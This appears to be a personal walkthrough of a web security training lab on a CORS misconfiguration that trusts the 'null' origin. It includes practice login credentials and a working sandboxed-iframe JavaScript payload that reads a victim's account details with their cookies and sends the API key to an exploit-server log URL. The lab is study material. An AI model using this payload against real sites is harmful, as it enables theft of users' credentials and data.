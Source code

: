 ----

### Lab description

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

#### Lab solution

1. Login with `wiener`
2. Go to `/accountDetails` endpoint
3. If you add `Origin` header with `null` value, the app will reflect
![[Pasted image 20230724212742.png]]
4. To create `null` Origin you need to create the follow HTML code inside the exploit server:

```html
`<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText); }; </script>"></iframe>`

```
5. Store and click on send the payload to the victim

![[Pasted image 20230724213144.png]]